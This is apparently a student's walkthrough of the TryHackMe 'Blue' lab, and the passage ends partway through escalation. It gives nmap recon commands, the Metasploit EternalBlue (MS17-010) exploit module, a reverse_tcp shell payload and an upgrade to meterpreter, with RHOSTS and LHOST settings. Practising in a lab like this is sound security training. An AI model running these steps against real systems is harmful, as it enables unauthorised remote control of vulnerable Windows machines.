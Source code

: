 Websites for recon/refrence:

https://cybernews.com/security/eternalblue-vulnerability-exploit-explained/#:~:text=Does%20EternalBlue%20still%20exist%3F,the%20internet%20with%20EternalBlue%20vulnerability.&text=Top%20Operating%20systems%20vulnerable%20to,Windows%207%20Professional%207600

https://www.avast.com/c-eternalblue

https://portswigger.net/daily-swig/eternal-romance-exploit-tied-to-winter-olympics-cyber-attack

# TryHackMe:Blue

Rememeber when looking at the notes IP stands for whatever the target or attacking machine is. 
To connect through VPN first donwload the file from tryhackme.  
next open your terminal and enter the command sudo openvpn followed by your the file name made

![alt text](image.png)

to make sure its working ping the IP provided by tryhackme

![alt text](image-1.png)

# Recon
run some nmap scans to gain information about the machine
nmap -sS -Pn -A -p- -T5 $ip  

you'll notice there are 3 ports open undre 1000

to find out what the machine is vulnerable to (if the form of ms)  run the command below
nmap -Ss -Pn -p 445 $ip --script smb-vuln-ms17-010.nse


# Access
run the msfconsole command to start metasploit 
next run search ms17-010

![alt text](image-4.png)

you can see its the first one so enter 
exploit/windows/smb/ms17_010_eternalblue as your answer

Show options and set the one required value. What is the name of this value? (All caps for submission)
use the options command use 0 next to get into the first exploit than run options afterwords

![alt text](image-5.png)

the asnwer is RHOSTS as you can see below

![alt text](image-6.png)

Set the rehost to the IP for the machine see example

![alt text](image-7.png)

normaly youd be okay to run but for the sake of learning more enter the following command and enter set payload windows/x64/shell/reverse_tcp
after that's done go head and run it 

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

make sure your local host is set right to that is found ip a.  use your ip address with the command set lhost ip to set it. 
run the run command again and wait this can take some time.  When it's finished you should run the whoami command and see this below

![alt text](image-8.png)




# Escalate

Now we background our current shell (Ctrl+Z) and convert our shell to a meterpreter shell.

![alt text](image-9.png)

msf6 > search shell_to_meterpreter
msf6 > use 0
We show options for the current selected exploit. We set LHOST and SESSION.

![alt text](image-10.png)

set LHOST <ip>
set SESSION <session-no.>



